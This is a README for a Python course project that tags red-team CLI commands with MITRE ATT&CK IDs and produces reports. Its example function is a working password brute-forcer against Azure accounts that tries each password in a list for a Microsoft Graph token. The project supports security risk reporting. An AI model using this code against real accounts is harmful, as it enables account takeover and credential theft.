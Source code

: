# Riskmap

Python utility for red teaming and penetration testing CLI tools to map commands and modules to the MITRE ATT&CK framework. A sample CLI program has been provided in [riskcli.py](./samples/riskcli/riskcli.py)

## Basic Concept

This library provides a `AttckMapper` class with a `mapping` decorator that can be used on functions that perform an offensive technique.

_Example function:_

```python
@app.command()
@atmap.mapping(enterprise=["T1110.001", "M1032"])
def azbrute(
    username: str = typer.Option(..., "-u", help="Username to bruteforce"),
    passList: Path = typer.Option(..., "-p", help="Path to password list"),
):
    """Bruteforces password for an Azure account"""
    validCred = {"user": username, "pass": None}
    with open(passList, "r", encoding="latin-1") as passes:
        for pwd in passes.read().splitlines():
            login = UsernamePasswordCredential(
                "1950a258-227b-4e31-a9cf-717495945fc2", username, pwd
            )
            try:
                token = login.get_token("https://graph.microsoft.com/.default")
                validCred["pass"] = pwd
            except ClientAuthenticationError as e:
                pass

    if not validCred["pass"]:
        raise CommandUnsuccessfulError(f"Brute force for {username} unsuccessful")
    typer.echo(f"\nCredential found! - {validCred}\n")
```

The decorator function will perform as normal and actions will be logged. When a report is generated, the IDs are looked up to provide a comprehensive description of what events took place, the techniques involved, and any additional references found in the MITRE matrices (CWE, CAPEC, etc).

_Report Generation Example:_

```python
@app.command()
def genreport(path: Path = typer.Argument(..., help="Path to riskmap log")):
    rrg = RiskmapReportGenerator(path)
    rrg.to_excel("output-report.xlsx")
```

This library has been tested with the [Typer](https://typer.tiangolo.com/) and therefore should also work with the [Click](https://github.com/pallets/click) library as well. By all accounts, the decorator should work with any normal synchronous function.

### Note

**_This library was written for Dakota State University's Managing Security Risk course and may not be maintained in the future. This is a proof-of-concept._**
